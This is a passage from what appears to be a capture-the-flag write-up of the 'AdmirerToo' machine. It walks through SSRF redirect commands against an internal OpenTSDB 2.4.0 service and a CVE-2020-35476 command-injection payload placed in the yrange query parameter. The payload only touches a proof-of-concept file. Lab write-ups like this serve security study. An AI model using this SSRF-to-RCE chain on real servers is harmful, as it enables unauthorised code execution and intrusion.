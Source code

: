 ![AdmirerToo%20240a5f42ba804c368714cbfe2f9e8182](../../zzz_res/attachments/AdmirerToo%20240a5f42ba804c368714cbfe2f9e8182%208.png)

## OpenTSDB 2.4.0 Remote Code Execution - CVE-2020-35476

Enumerated internal port 4242:

```bash
$ sudo python3 redirect.py 10099 http://10.10.11.137:4242/
```

![OpenTSDB](../../zzz_res/attachments/AdmirerToo%20240a5f42ba804c368714cbfe2f9e8182%209.png)

OpenTSDB

Enumerated OpenTSDB version:

[/api/version](http://opentsdb.net/docs/build/html/api_http/version.html)

```bash
$ sudo python2 redirect.py --port 10099 http://10.10.11.137:4242/api/version
```

```json
{"short_revision":"14ab3ef","repo":"/home/hobbes/OFFICIAL/build","host":"clhbase","version":"2.4.0","full_revision":"14ab3ef8a865816cf920aa69f2e019b7261a7847","repo_status":"MINT","user":"hobbes","branch":"master","timestamp":"1545014415"}
```

### Known vulnerability for OpenTSDB 2.4.0:

[OpenTSDB - A Distributed, Scalable Monitoring System](http://opentsdb.net/)

[Arbitrary Code Execution in net.opentsdb:opentsdb | CVE-2020-35476 | Snyk](https://security.snyk.io/vuln/SNYK-JAVA-NETOPENTSDB-1041751)

Exploited the SSRF to trigger the RCE on port 4242:

![AdmirerToo%20240a5f42ba804c368714cbfe2f9e8182](../../zzz_res/attachments/AdmirerToo%20240a5f42ba804c368714cbfe2f9e8182%2010.png)

```bash
$ python2 redirect.py --port 10098 "http://10.10.11.137:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('touch/tmp/poc.txt')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
serving at port 10098
10.10.11.137 - - [24/Apr/2022 14:43:52] "GET / HTTP/1.0" 301 -
10.10.11.137 - - [24/Apr/2022 14:43:52] "GET / HTTP/1.0" 301 -
```

![No such name for 'metrics': 'sys.cpu.nice’](../../zzz_res/attachments/AdmirerToo%20240a5f42ba804c368714cbfe2f9e8182%2011.png)

No such name for 'metrics': 'sys.cpu.nice’

Enumerated available metrics trough API:

[OpenTSDB - Get all metrics via http](https://stackoverflow.com/questions/18396365/opentsdb-get-all-metrics-via-http)
